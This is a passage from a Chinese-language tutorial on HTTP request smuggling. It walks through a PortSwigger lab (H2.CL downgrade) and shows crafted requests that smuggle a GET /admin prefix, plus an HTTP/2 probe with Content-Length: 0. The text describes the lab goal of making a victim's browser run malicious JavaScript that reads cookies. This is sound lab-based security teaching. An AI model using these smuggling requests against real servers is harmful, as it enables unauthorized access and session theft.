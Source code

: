 那么此时后端请求数据报文将如下：

```plain
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

下面我们通过一个靶场进行演示介绍：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)  
靶场介绍：此靶场容易受到请求走私的攻击，因为前端服务器会降低HTTP/2请求的级别，即使它们的长度不明确，要解决实验室问题，你需要执行请求走私攻击使受害者的浏览器从漏洞利用服务器加载并执行恶意JavaScript文件，调用alert(document.cookie)，受害者用户每10秒访问主页一次  
解题过程：  
Step 1：访问上面的靶场链接地址，让后点击"ACCESS THELAB"进入靶场  
[![](assets/1705287960-44abe556a376d42ee84beea8ff409fb7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103309-c216b318-b029-1.png)  
Step 2：使用Burp suite抓包并尝试在HTTP/2请求的正文中添加Content-Length:0头的方式尝试走私前缀信息，需要注意的是在发送请求之前要将协议设置为HTTP/2

```plain
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Content-Length: 0

SMUGGLED
```

[![](assets/1705287960-513913a57745d2d81084d9812ac37ad9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103338-d3567208-b029-1.png)  
此时第二个请求都会收到一个404响应，由此可以确定我们已经让后端将走私的前缀附加到后续的请求  